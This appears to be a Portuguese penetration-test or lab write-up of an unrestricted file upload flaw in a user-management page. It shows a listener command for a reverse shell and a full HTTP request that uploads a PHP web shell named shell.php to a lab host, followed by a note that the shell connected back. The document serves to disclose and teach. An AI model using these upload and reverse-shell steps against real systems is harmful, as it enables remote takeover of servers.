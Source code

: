
**Descrição:**  
Foi identificada uma vulnerabilidade que permite o upload de arquivos sem restrição adequada. A aplicação não valida corretamente a extensão e o tipo dos arquivos enviados, possibilitando o upload de arquivos maliciosos, como shells web em PHP, que podem ser utilizados para comprometer o sistema.

**Evidência:**  
O primeiro passo é um listener na máquina atacante usando penelope com a porta escolhida no reverse shell:

```
python3 penelope.py PORTA
```

E então,ao realizar o upload de um arquivo PHP malicioso contendo um web shell na página de cadastro de usuários (obs: foi utiliado a reverse shell pentest monkey, disponível para uso no github)

```

POST /management/classes/Users.php?f=save HTTP/1.1
Host: 10.10.18.213:445
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------29210971036646702814293864180
Content-Length: 6404
Origin: http://10.10.18.213:445
Connection: keep-alive
Referer: http://10.10.18.213:445/management/admin/?page=user/manage_user
Cookie: PHPSESSID=nbh2n4pr4vhuqc4apnq6kgh1p2
Priority: u=0

-----------------------------29210971036646702814293864180
Content-Disposition: form-data; name="img"; filename="shell.php"
Content-Type: application/x-php

<?php

// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

?>
```
Shell sendo recebida na máquina atacante:

![shell1](7-shell_recebida.png)
